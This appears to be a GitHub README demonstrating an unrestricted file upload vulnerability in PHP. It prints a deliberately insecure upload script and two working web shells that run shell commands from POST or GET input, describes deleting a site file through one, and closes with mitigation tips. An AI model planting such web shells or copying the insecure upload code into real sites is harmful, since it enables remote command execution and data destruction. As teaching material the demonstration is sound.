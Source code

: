 # Unrestricted-file-Upload

### What is unrestricted file upload vulnerability?
When an attacker could send a form data POST request with a typical filename or Multipurpose Internet Mail Extensions(MIME) and can cause Arbitrary Code Execution(ACE). 
### What did i do?
I first made the script to upload the file(which by the way is very insecure), here is the code:
```
<?php
$t_file=basename($_FILES['thefile']['name']);
if (move_uploaded_file($_FILES['thefile']['tmp_name'], $t_file)) {
	move_uploaded_file($_FILES['thefile']['tmp_name'], $t_file);
	echo "File '".$t_file."' uploaded successfully";
}else{
	echo "Something went wrong, try agains";
}
?>
```
I made 2 programs each demonstrating an aspect of file upload vulnerability, The first one, "hack.php" is a simple php script with an input, it executes as shell whatever you give as input.
here is the code
```
<?php
$shell=shell_exec('dir C:\\');
if ($_POST['exploit']) {
 $shell=shell_exec($_POST['exploit']);
   echo "<pre>$shell</pre>";
 }
 ?>
```
As you see i used shell exec which can invoke a command via shell and return the result.
Let's first unsecurely upload our file
![](/ìmg/hack2.jpg)<br>
![](/ìmg/hack1.png)<br>
Let's first a simple command like 'dir':
![](/ìmg/hack3.jpg)<br>
here is the output we get:
![](/ìmg/hack4.png)
Then let's execute a nasty command like del which will delete a file, for my case i'm going to delete the "index.php" file which is the main file.
The "index.php" file will be automatically deleted and the website will encounter problems.
This can be very scary as someone might be controlling your computer from within your website itself.
Then i made another script which takes url parameters to execute a command via shell and return the result.
Here is it's code:
```
<?php
echo shell_exec($_GET['shell'])
?>
```
This one is more scary than the first because it doesn't need visible immediate contact to execute itself, when programmers are working on a large code-base with thousands of files this one gets scary pretty fast when you see it's size"only 42 bytes".
### what can i do to make my website more secure?
-Well, use python, i mean seriously, use frameworks such as flask or django which won't just execute a file uploaded to the server but only follow predefined urls
- Scannning incoming urls
- Always use a filter "like getimagesize or pathinfo($file,PATHINFO_EXTENSION)" to check if the uploaded files are really what you want them to be 
- Limit file size, some uploads take a lot of space...(for example a script that builds an uploaded virus with gcc and so on...)
- Only allow authorized and authenticated users to use the feature. 
- Serve fetched files from your application rather than directly via the web server.
- Store files in a non-public accessibly directory if you can.
- Write to the file when you store it to include a header that makes it non-executable.

This is it, Happy coding
